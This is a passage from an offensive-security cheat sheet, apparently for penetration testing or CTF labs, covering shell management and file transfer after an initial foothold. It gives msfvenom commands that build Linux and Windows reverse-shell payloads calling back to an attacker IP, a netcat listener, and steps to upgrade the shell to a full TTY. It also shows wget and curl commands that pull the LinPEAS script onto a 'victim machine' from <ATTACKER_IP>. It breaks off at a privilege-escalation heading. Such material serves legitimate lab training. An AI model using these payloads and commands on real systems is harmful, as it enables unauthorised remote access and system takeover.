 From an initial foothold to complete system control.

### Shell Management

**Msfvenom (`msfvenom`)**
A versatile payload generator.

```bash
# Generate a Linux reverse shell executable
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf -o shell

# Generate a Windows Meterpreter reverse shell executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=5555 -f exe -o shell.exe
```

**Netcat (`nc`)**
The essential tool for listening for reverse shells.

```bash
# Start a listener on the attacker machine
nc -lvnp 4444
```

**Upgrading to a Full TTY Shell**

```bash
# 1. Use Python to spawn a better shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 2. Background the shell, set terminal raw, and foreground
Ctrl+Z
stty raw -echo; fg

# 3. Reset and set terminal type
reset
export TERM=xterm
```

### File Transfer

**Host a Web Server (Attacker Machine)**

```bash
# In the directory with the files to serve
python3 -m http.server 80
```

**Download Files (Victim Machine)**

```bash
# Using wget
wget http://<ATTACKER_IP>/LinPEAS.sh

# Using curl
curl http://<ATTACKER_IP>/LinPEAS.sh -o LinPEAS.sh
```

### Linux Privilege Escalation
